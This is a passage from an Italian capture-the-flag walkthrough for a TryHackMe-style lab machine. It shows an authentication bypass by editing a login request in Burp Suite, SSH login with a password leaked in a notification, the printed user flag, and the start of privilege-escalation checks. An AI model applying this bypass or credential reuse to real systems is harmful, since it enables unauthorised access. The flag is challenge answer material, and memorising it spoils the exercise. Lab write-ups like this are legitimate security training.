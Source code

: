 troviamo una notifica non letta da un account Manager 
```
Tyler just asked if I wanted to play VR but he left you out scr1ptkiddy (what a jerk). Want to join us? We will probably hop on in like an hour or so. 
```

proviamo a loggarci come account Manager

```BurpSuite
Login=Manager&DomainId=0
```

troviamo tra le notifiche
```
Administrateur
Notification manuelle
-
Message:

Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 

Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```
andiamo a loggarci in ssh!
```
ssh tim@10.10.196.87
```
password
```
cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```
e troviamo la nostra prima flag
```
tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt
THM{c4ca4238a0b923820dcc509a6f75849b}
```

```
THM{c4ca4238a0b923820dcc509a6f75849b}
```

possiamo vedere che non abbiamo i permessi di amministratore quindi dobbiamo
effettuare una scalata dei privilegi

```
tim@silver-platter:~$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.
tim@silver-platter:~$ cd ..
tim@silver-platter:/home$ 
tim@silver-platter:/home$ ls
tim  tyler
tim@silver-platter:/home$ cd tyler
-bash: cd: tyler: Permission denied
tim@silver-platter:/home$ 
```
abbiamo scoperto l'esistenza di un altro user **tyler** ma non abbiamo i permessi per accederci
